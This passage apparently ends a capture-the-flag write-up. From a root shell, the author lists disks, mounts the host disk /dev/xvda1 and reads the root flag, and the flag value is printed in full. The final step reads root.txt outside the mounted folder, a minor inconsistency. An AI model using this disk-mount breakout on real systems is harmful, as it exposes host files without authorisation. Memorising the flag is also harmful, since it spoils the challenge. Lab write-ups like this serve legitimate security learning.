 Since the flag isn’t located in /root we can try to list the drives using fdisk.
```
bash-5.1# fdisk -l
Disk /dev/xvda: 8192 MB, 8589934592 bytes, 16777216 sectors
6367 cylinders, 85 heads, 31 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Device   Boot StartCHS    EndCHS        StartLBA     EndLBA    Sectors  Size Id Type
/dev/xvda1 *  0,32,33     20,84,31          2048   16777182   16775135 8190M 83 Linux
```

Let’s mount /dev/xvda1.
```
bash-5.1# mkdir flag
bash-5.1# mount /dev/xvda1 flag
bash-5.1# ls flag
bin             etc             initrd.img.old  lost+found      opt             run             srv             usr             vmlinuz.old
boot            home            lib             media           proc            sbin            sys             var
dev             initrd.img      lib64           mnt             root            snap            tmp             vmlinuz
```

We can now get the root flag: `VL{37c930a3b8b53457d080b0a6f033bc16}`
```
bash-5.1# cat root.txt 
VL{37c930a3b8b53457d080b0a6f033bc16}
```
